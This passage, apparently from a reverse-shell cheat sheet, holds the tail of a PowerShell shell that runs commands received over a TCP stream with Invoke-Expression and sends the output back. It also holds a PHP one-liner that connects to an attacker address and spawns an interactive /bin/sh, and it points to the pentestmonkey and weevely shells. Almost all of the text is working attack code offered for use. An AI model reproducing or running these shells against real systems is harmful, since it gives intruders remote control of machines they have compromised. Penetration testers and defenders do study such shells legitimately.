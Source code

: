```powershell

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

## php

```bash
php -r '$sock=fsockopen("$ipAttacker",$port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Pentestmonkey

Also, the [pentestmonkey one](pentesmonkey.md).

### weevely
